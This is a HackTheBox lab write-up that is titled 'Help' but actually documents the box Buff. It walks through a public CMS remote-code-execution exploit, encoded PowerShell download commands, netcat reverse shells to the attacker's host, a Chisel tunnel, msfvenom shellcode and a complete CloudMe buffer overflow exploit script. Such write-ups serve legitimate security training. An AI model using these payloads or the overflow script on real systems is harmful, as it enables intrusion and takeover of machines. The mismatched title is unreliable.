



+++
authors = ["Matt Johnson"]
title = 'HTB: Help Writeup'
date = '2020-12-19'
description = "Here's how to solve HackTheBox's Help."
draft = false
tags = ["hackthebox","security"]
summary = "Here's how to solve HackTheBox's Help."
+++



# High-Level Information

Machine Name: Help

IP Address: 10.10.10.198

Difficulty: Easy

Summary: HackTheBox's Help was a relatively straightforward box which required the attacker to use a unmodified script to gain remote code execution and a rudimentary shell, upgrade that to a full shell, forward the port for a vulnerable service, and exploit a buffer overflow vulnerability in that service. The principal skills gained during this exercise include using encoded powershell commands to avoid bad characters, setting up a port forward, and generating custom shell code using msfvenom.

Tools Used: Nmap, Netcat, Chisel, Msfvenom

# Initial Foothold

As always, I began by running Nmap:

```shell
┌─[root@parrot]─[~]
└──╼# nmap -sC -sV -p- 10.10.10.198
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-01 15:02 CDT
Stats: 0:05:55 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 76.09% done; ETC: 15:10 (0:01:52 remaining)
Nmap scan report for 10.10.10.198
Host is up (0.14s latency).
Not shown: 65533 filtered ports
PORT STATE SERVICE VERSION
7680/tcp open pando-pub?
8080/tcp open http Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 529.42 seconds
┌─[root@parrot]─[~]
└──╼#
         
```

With only port 8080 open, I began to enumerate the website:

 

While browsing the website, I came across some interesting information disclosure within the contact page:



Google quickly pointed towards an [RCE exploit](https://www.exploit-db.com/exploits/48506) for this version of the CMS.

Conveniently, no modification to the script was necessary and I was able to gain RCE.

```shell
┌──[matt@parrot]─[~/htb/buff]
└──╼$ python 48506 http://10.10.10.198:8080/
/\
/vvvvvvvvvvvv \--------------------------------------,
`^^^^^^^^^^^^ /============BOKU====================="
\/
[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload> whoami
�PNG
buff\shaun
```

However, the one issue that I noticed within the script itself is that the "shell" is not a shell at all. It is a shell emulator, but each command is basically run individually. In order to break out of that and get a fully functioning shell, I hosted a simple web server and downloaded Netcat using a powershell encoded command. Once that was downloaded, I ran a Netcat listener on my host machine and connected to it from the remote machine.

```shell
┌──[matt@parrot]─[~/htb/buff]
└──╼$ cat downloadnc.cmd 
IEX(New-Object System.Net.WebClient).downloadFile("http://10.10.14.2/nc.exe","c:\xampp\htdocs\gym\upload\nc.exe")
┌─[matt@parrot]─[~/htb/buff]
└──╼$ cat downloadnc.cmd | iconv -t UTF-16LE | base64 -w0 SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQARgBpAGwAZQAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAxADQALgAyAC8AbgBjAC4AZQB4AGUAIgAsACIAYwA6AFwAeABhAG0AcABwAFwAaAB0AGQAbwBjAHMAXABnAHkAbQBcAHUAcABsAG8AYQBkAFwAbgBjAC4AZQB4AGUAIgApAAoA
```

```shell
C:\xampp\htdocs\gym\upload> powershell -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQARgBpAGwAZQAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAxADQALgAyAC8AbgBjAC4AZQB4AGUAIgAsACIAYwA6AFwAeABhAG0AcABwAFwAaAB0AGQAbwBjAHMAXABnAHkAbQBcAHUAcABsAG8AYQBkAFwAbgBjAC4AZQB4AGUAIgApAAoA
 �PNG
 C:\xampp\htdocs\gym\upload> nc.exe 10.10.14.2 4444 -e cmd.exe
```

```shell
┌──[matt@parrot]─[~/htb]
└──╼$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.198] 49678
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\xampp\htdocs\gym\upload>dir
dir
Volume in drive C has no label.
Volume Serial Number is A22D-49F7
Directory of C:\xampp\htdocs\gym\upload
27/09/2020 19:08 <DIR> .
27/09/2020 19:08 <DIR> ..
27/09/2020 19:09 8,347,648 chisel.exe
27/09/2020 19:04 53 kamehameha.php
27/09/2020 19:08 59,392 nc.exe
3 File(s) 8,407,093 bytes
2 Dir(s) 7,398,076,416 bytes free
C:\xampp\htdocs\gym\upload>
```

From there, I grabbed the user flag and began the next phase: privilege escalation.

# Privilege Escalation

Internal enumeration ended up being unusually simple. I was just poking around manually when I came across a client binary for CloudMe, a cloud-based file storage service. The particular version of this client, 1.11.2, was susceptible to a buffer overflow attack that would result in code execution. I ran `netstat` and checked to see if port 8888 was open, and sure enough it was.

```shell
c:\Users\shaun\Downloads>dir
dir
Volume in drive C has no label.
Volume Serial Number is A22D-49F7
Directory of c:\Users\shaun\Downloads
14/07/2020 13:27 <DIR> .
14/07/2020 13:27 <DIR> ..
16/06/2020 16:26 17,830,824 CloudMe_1112.exe
1 File(s) 17,830,824 bytes
2 Dir(s) 7,428,366,336 bytes free
```

I managed to find [an exploit](https://www.exploit-db.com/exploits/48389) for the CloudMe vulnerability, but the issue was that it was written in python. Python, being an interpreted language, is not really a language that lends itself well to compilation. To get around this issue, I decided to forward the port to my host machine using [Chisel](https://github.com/jpillora/chisel), my TCP tunnel of choice. In order to use it, I uploaded the Chisel binary to the remote machine, started up my Chisel server, and connected to it via the client:

```shell
┌─[matt@parrot]─[~/htb/buff]
└──╼$ cat downloadchisel.cmd
IEX(New-Object System.Net.WebClient).downloadFile("http://10.10.14.2/chisel.exe","c:\xampp\htdocs\gym\upload\chisel.exe")
┌─[matt@parrot]─[~/htb/buff]
└──╼$ cat downloadchisel.cmd | iconv -t UTF-16LE| base64 -w0
SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQARgBpAGwAZQAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAxADQALgAyAC8AYwBoAGkAcwBlAGwALgBlAHgAZQAiACwAIgBjADoAXAB4AGEAbQBwAHAAXABoAHQAZABvAGMAcwBcAGcAeQBtAFwAdQBwAGwAbwBhAGQAXABjAGgAaQBzAGUAbAAuAGUAeABlACIAKQAKAA==
┌─[matt@parrot]─[~/htb/buff]
└──╼$ 
```

```shell
C:\xampp\htdocs\gym\upload> powershell -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQARgBpAGwAZQAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAxADQALgAyAC8AYwBoAGkAcwBlAGwALgBlAHgAZQAiACwAIgBjADoAXAB4AGEAbQBwAHAAXABoAHQAZABvAGMAcwBcAGcAeQBtAFwAdQBwAGwAbwBhAGQAXABjAGgAaQBzAGUAbAAuAGUAeABlACIAKQAKAA==
```

```shell
┌─[matt@parrot]─[~/htb/buff/evidence]
└──╼$ chisel server -p 8000 --reverse
2020/09/27 18:17:44 server: Reverse tunnelling enabled
2020/09/27 18:17:44 server: Fingerprint 18:ea:af:d8:e2:bb:83:95:07:91:6c:2b:f9:04:0a:1a
2020/09/27 18:17:44 server: Listening on 0.0.0.0:8000...
c:\xampp\htdocs\gym\upload>.\chisel.exe client 10.10.14.2:8000 R:8891:127.0.0.1:8888
.\chisel.exe client 10.10.14.2:8000 R:8891:127.0.0.1:8888
2020/09/27 19:21:03 client: Connecting to ws://10.10.14.2:8000
2020/09/27 19:21:03 client: Fingerprint 18:ea:af:d8:e2:bb:83:95:07:91:6c:2b:f9:04:0a:1a
2020/09/27 19:21:04 client: Connected (Latency 159.294ms)
```

From there, I verified that the tunneling worked by checking `netstat` on my host machine and verifying that port 8891 (the port I chose to use for my host machine) was listening:

```shell
┌──[matt@parrot]─[~/htb]
└──╼$ netstat -ano | grep 8891
tcp 0 0 0.0.0.0:8891 0.0.0.0:* LISTEN off (0.00/0/0)
┌─[matt@parrot]─[~/htb]
└──╼$ 
```

In addition to that, the POC exploit noted above required a bit of modification in order for it to actually produce the results I wanted. I used msfvenom to generate python code which would execute Netcat and (hopefully) get me a root shell.

```shell
┌─[matt@parrot]─[~/htb/buff]
└──╼$ msfvenom -p windows/exec CMD='C:\xampp\htdocs\gym\upload\nc.exe 10.10.14.2 4000 -e cmd.exe' -b '\x00\x0a\0d' -f python -v payload
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 272 (iteration=0)
x86/shikata_ga_nai chosen with final size 272
Payload size: 272 bytes
Final size of python file: 1448 bytes
payload = b""
payload += b"\xba\x9a\xb2\x94\xe2\xda\xd7\xd9\x74\x24\xf4\x5e"
payload += b"\x2b\xc9\xb1\x3e\x31\x56\x13\x83\xee\xfc\x03\x56"
payload += b"\x95\x50\x61\x1e\x41\x16\x8a\xdf\x91\x77\x02\x3a"
payload += b"\xa0\xb7\x70\x4e\x92\x07\xf2\x02\x1e\xe3\x56\xb7"
payload += b"\x95\x81\x7e\xb8\x1e\x2f\x59\xf7\x9f\x1c\x99\x96"
payload += b"\x23\x5f\xce\x78\x1a\x90\x03\x78\x5b\xcd\xee\x28"
payload += b"\x34\x99\x5d\xdd\x31\xd7\x5d\x56\x09\xf9\xe5\x8b"
payload += b"\xd9\xf8\xc4\x1d\x52\xa3\xc6\x9c\xb7\xdf\x4e\x87"
payload += b"\xd4\xda\x19\x3c\x2e\x90\x9b\x94\x7f\x59\x37\xd9"
payload += b"\xb0\xa8\x49\x1d\x76\x53\x3c\x57\x85\xee\x47\xac"
payload += b"\xf4\x34\xcd\x37\x5e\xbe\x75\x9c\x5f\x13\xe3\x57"
payload += b"\x53\xd8\x67\x3f\x77\xdf\xa4\x4b\x83\x54\x4b\x9c"
payload += b"\x02\x2e\x68\x38\x4f\xf4\x11\x19\x35\x5b\x2d\x79"
payload += b"\x96\x04\x8b\xf1\x3a\x50\xa6\x5b\x50\xa7\x34\xe6"
payload += b"\x16\xa7\x46\xe9\x06\xc0\x77\x62\xc9\x97\x87\xa1"
payload += b"\xae\x68\xc2\xe8\x86\xe0\x8b\x78\x9b\x6c\x2c\x57"
payload += b"\xdf\x88\xaf\x52\x9f\x6e\xaf\x16\x9a\x2b\x77\xca"
payload += b"\xd6\x24\x12\xec\x45\x44\x37\xaf\x53\xe6\xc0\x51"
payload += b"\xce\x66\x41\xce\x78\xf3\xc5\x81\x1b\x88\x59\x39"
payload += b"\xa2\x03\x3e\xb0\x24\xb0\xd1\x5b\xa0\x14\x40\xff"
payload += b"\x06\xc0\xe4\x9a\x76\x3b\x25\x4b\x47\x0b\x6b\xa2"
payload += b"\x93\x45\x41\xe4\xef\xa9\x95\xd4\x2f\xe7\xb0\x34"
payload += b"\x4c\x9a\x5e\x1b\xf7\x1c\xfa\x63"
┌─[matt@parrot]─[~/htb/buff]
└──╼$ 
```

With the aforementioned modifications, the python script looked like this:

```python
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86
#Instructions:
# Start the CloudMe service and run the script.
import socket
target = "127.0.0.1"
padding1 = b"\x90" * 1052
EIP = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS = b"\x90" * 30
#msfvenom -p windows/exec CMD='C:\xampp\htdocs\gym\upload\nc.exe 10.10.14.2 4000 -e cmd.exe' -b '\x00\x0a\0d' -f python -v payload
payload = b""
payload += b"\xbf\x4a\xb2\x83\xb1\xdd\xc2\xd9\x74\x24\xf4\x5d"
payload += b"\x31\xc9\xb1\x3e\x83\xc5\x04\x31\x7d\x0f\x03\x7d"
payload += b"\x45\x50\x76\x4d\xb1\x16\x79\xae\x41\x77\xf3\x4b"
payload += b"\x70\xb7\x67\x1f\x22\x07\xe3\x4d\xce\xec\xa1\x65"
payload += b"\x45\x80\x6d\x89\xee\x2f\x48\xa4\xef\x1c\xa8\xa7"
payload += b"\x73\x5f\xfd\x07\x4a\x90\xf0\x46\x8b\xcd\xf9\x1b"
payload += b"\x44\x99\xac\x8b\xe1\xd7\x6c\x27\xb9\xf6\xf4\xd4"
payload += b"\x09\xf8\xd5\x4a\x02\xa3\xf5\x6d\xc7\xdf\xbf\x75"
payload += b"\x04\xe5\x76\x0d\xfe\x91\x88\xc7\xcf\x5a\x26\x26"
payload += b"\xe0\xa8\x36\x6e\xc6\x52\x4d\x86\x35\xee\x56\x5d"
payload += b"\x44\x34\xd2\x46\xee\xbf\x44\xa3\x0f\x13\x12\x20"
payload += b"\x03\xd8\x50\x6e\x07\xdf\xb5\x04\x33\x54\x38\xcb"
payload += b"\xb2\x2e\x1f\xcf\x9f\xf5\x3e\x56\x45\x5b\x3e\x88"
payload += b"\x26\x04\x9a\xc2\xca\x51\x97\x88\x80\xa4\x25\xb7"
payload += b"\xe6\xa7\x35\xb8\x56\xc0\x04\x33\x39\x97\x98\x96"
payload += b"\x7e\x67\xd3\xbb\xd6\xe0\xba\x29\x6b\x6d\x3d\x84"
payload += b"\xaf\x88\xbe\x2d\x4f\x6f\xde\x47\x4a\x2b\x58\xbb"
payload += b"\x26\x24\x0d\xbb\x95\x45\x04\xf8\x23\xe6\xdf\x9e"
payload += b"\x3e\x66\x50\x3d\xa8\xf2\xf4\xd2\x4b\x88\xa8\x4b"
payload += b"\xf2\x03\x0d\xe1\x74\xb0\xc2\x68\x10\x14\x73\x08"
payload += b"\xf6\xc1\xf3\xab\x26\x3b\x34\x1a\x17\x0b\x1a\x53"
payload += b"\x63\x45\x50\xb3\xbf\xa9\xa4\x83\x9f\xe4\xa1\xc3"
payload += b"\xbc\x9b\x4d\x2a\x27\x1c\xeb\x32"
overrun = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))
buf = padding1 + EIP + NOPS + payload + overrun
try:
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target, 8891))
    s.send(buf)
except Exception as e:
    print(sys.exc_value)
```

From there, it was as simple as setting up a netcat listener, running the script, and reaping the benefits.

```shell
┌─[matt@parrot]─[~/htb/buff]
└──╼$ sudo python3 cloudmebof.py
[sudo] password for matt:

...

┌─[matt@parrot]─[~/htb/buff]
└──╼$ nc -nvlp 4000
listening on [any] 4000 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.198] 49681
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Windows\system32>whoami
whoami
buff\administrator
C:\Windows\system32>cd c:\users\administrator\desktop
cd c:\users\administrator\desktop
c:\Users\Administrator\Desktop>dir
dir
Volume in drive C has no label.
Volume Serial Number is A22D-49F7
Directory of c:\Users\Administrator\Desktop
18/07/2020 17:36 <DIR> .
18/07/2020 17:36 <DIR> ..
16/06/2020 16:41 1,417 Microsoft Edge.lnk
27/09/2020 18:36 34 root.txt
2 File(s) 1,451 bytes
2 Dir(s) 7,574,896,640 bytes free
c:\Users\Administrator\Desktop>
```
